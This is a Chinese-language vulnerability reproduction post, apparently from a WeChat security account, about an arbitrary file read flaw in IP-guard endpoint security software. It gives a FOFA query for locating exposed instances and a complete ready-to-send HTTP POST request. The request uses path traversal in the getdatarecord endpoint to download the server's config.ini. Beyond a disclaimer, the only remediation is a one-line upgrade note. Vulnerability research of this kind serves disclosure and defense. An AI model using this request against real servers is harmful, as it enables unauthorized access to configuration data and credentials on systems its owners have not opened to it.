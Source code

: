 #  漏洞复现 || IP-guard getdatarecord 任意文件读取   
韩文庚  我爱林   2024-04-20 16:16  
  
## 免责声明  
  
**我爱林攻防研究院的技术文章仅供参考，****任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得利用网络从事危害国家安全、荣誉和利益****，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**  
## 漏洞描述  
  
IP-guard是由溢信科技股份有限公司开发的一款终端安全管理软件，旨在帮助企业保护终端设备安全、数据安全、管理网络使用和简化IT系统管理  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JibM0LyR9LlOhiclhNoQurIQkRJ2ULm2vN4EtqFw7rbNVrKsdgoIZPLZWD577fwbFEwQPmoFMJhicOym2OHiaOsvTw/640?wx_fmt=png&from=appmsg "")  
## 资产确定  
```
fofa： app="IP-guard"
```  
## 漏洞复现  
  
  
1.利用如下POC进行文件读取  
```
POST /ipg/appr/MApplyList/downloadFile_client/getdatarecord HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 64
Content-Type: application/x-www-form-urlencoded


path=..%2Fconfig.ini&filename=1&action=download&hidGuid=1v%0D%0A
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JibM0LyR9LlOhiclhNoQurIQkRJ2ULm2vNtoDReALeJmz0oMKan7ibYkiboDe8UrUibyB1ibNl3cg9d21pmNTXjkAukA/640?wx_fmt=png&from=appmsg "")  
## 修复建议  
  
  
1.  
升级至安全版本  
  
  
如有侵权，请联系删除  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
**点它，分享点赞在看都在这里**  
  
